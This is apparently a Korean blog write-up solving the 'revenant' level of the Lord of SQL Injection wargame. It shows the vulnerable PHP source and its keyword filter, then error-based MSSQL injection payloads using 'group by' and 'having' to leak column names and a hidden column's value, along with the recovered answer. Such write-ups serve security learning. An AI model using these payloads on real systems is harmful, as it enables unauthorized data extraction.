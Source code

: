 ```yaml
---
title : "LOS Lv.42 revenant"
excerpt : "group by로 컬럼명 알아내기"
toc: true
toc_sticky: true
categories :
  - rubiya
---
```


## revenant
```php
query : select * from prob_revenant where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect();
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|sys|information|prob|;|waitfor|_/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select * from prob_revenant where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  sqlsrv_query($db,$query);
  if(sqlsrv_errors()) exit(mssql_error(sqlsrv_errors()));

  $query = "select * from prob_revenant where id='admin'"; 
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['4'] === $_GET['pw']) solve("revenant"); // you have to pwn 5th column
  highlight_file(__FILE__);
?>
```

## Solution
```
5개의 column 중 id, pw만 아는 상황.
우리는 id=admin의 5번째 column의 값을 알아내야 함.

group by를 통해 알아낼 수 있음.
```
<a href="https://zulloper.tistory.com/6" target="_blank">https://zulloper.tistory.com/6</a>

```
"5. 현재 테이블 조회"를 보면 ' having 1=1 --%20을 했더니?

Column 'prob_revenant.id' is invalid ~~~

이런 에러가 뜨면서 컬럼명이 나타남.

?id=' group by id --%20 -> prob_revenant.pw is ~~

이런식으로 5번째 컬럼명을 알아내면 됨.

?id=' group by id,pw,"45a88487","13477a35" --%20

-> 5번째 컬럼명은 "9604b0c8"임을 확인!

-> mssql에서는 double quotes로 컬럼명과 문자열을 구분하나봄.
-> single quote로 하면 문자열로 들어가는 듯함.
```
```
따라서 5번째 컬럼의 값을 알아내면 다음과 같음.

?id=admin' and 1=(select "9604b0c8") --%20

-> aa68a4b3fb327dee07f868450f7e1183
```

## 에러 발생 이유
<a href="https://blog.limelee.xyz/entry/LOS-revenant?category=711778" target="_blank">https://blog.limelee.xyz/entry/LOS-revenant?category=711778</a>